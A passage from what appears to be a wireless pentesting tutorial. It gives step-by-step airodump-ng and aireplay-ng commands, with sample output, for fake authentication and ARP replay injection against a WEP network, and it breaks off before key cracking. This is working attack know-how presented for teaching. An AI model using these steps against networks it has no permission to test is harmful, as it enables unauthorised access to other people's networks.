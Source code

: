 First, make sure your wireless adapter is in monitor mode.

Use the following command to start listening and identify a WEP-encrypted network and its associated clients:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ airodump-ng wlan0
```

We associate ourselves with the access point so it accepts our injection packets. This is done using the following command:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ sudo aireplay-ng -1 3600 -q 10 -a <target-BSSID> wlan0

Waiting for beacon frame (BSSID: XX:XX:XX:XX:XX:XX) on channel 6
Authentication successful
Association successful :-) (AID: 1)
Sending keep-alive packet every 10 seconds...
```

- `-1` Fake auth attack
- `3600` Keep association for 1 hour
- `-q 10` Send keep-alive every 10 seconds
- `-a` BSSID of the target AP

The **BSSID**, **channel**, and a client’s MAC address connected to the target network. Once identified, start a targeted packet capture:

> [!TIP]
> If no clients are currently connected, you won’t be able to perform the ARP replay attack effectively. Consider switching to a different AP or wait until a device connects.

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ airodump-ng --bssid <target-BSSID> -c <channel> -w wep-arp wlan0
```

Then, in another terminal, send ARP request packets to stimulate traffic:

```bash
┌──(proxygeek㉿VMware-kali)-[~]
└─$ aireplay-ng --arpreplay -b <target-BSSID> -h <client-MAC> wlan0

18:57:12  Waiting for beacon frame (BSSID: XX:XX:XX:XX:XX:XX) on channel 6
18:57:13  Found BSSID "XX:XX:XX:XX:XX:XX" on channel 6
18:57:14  Using the MAC address of the client: XX:XX:XX:XX:XX:XX
18:57:15  Sending ARP request packets...
18:57:16  Got ARP request from client XX:XX:XX:XX:XX:XX
18:57:16  Injecting ARP request to access point
18:57:17  ARP packet reinjected successfully (1/30 sent)
18:57:18  ARP packet reinjected successfully (2/30 sent)
18:57:19  ARP packet reinjected successfully (3/30 sent)
...
```

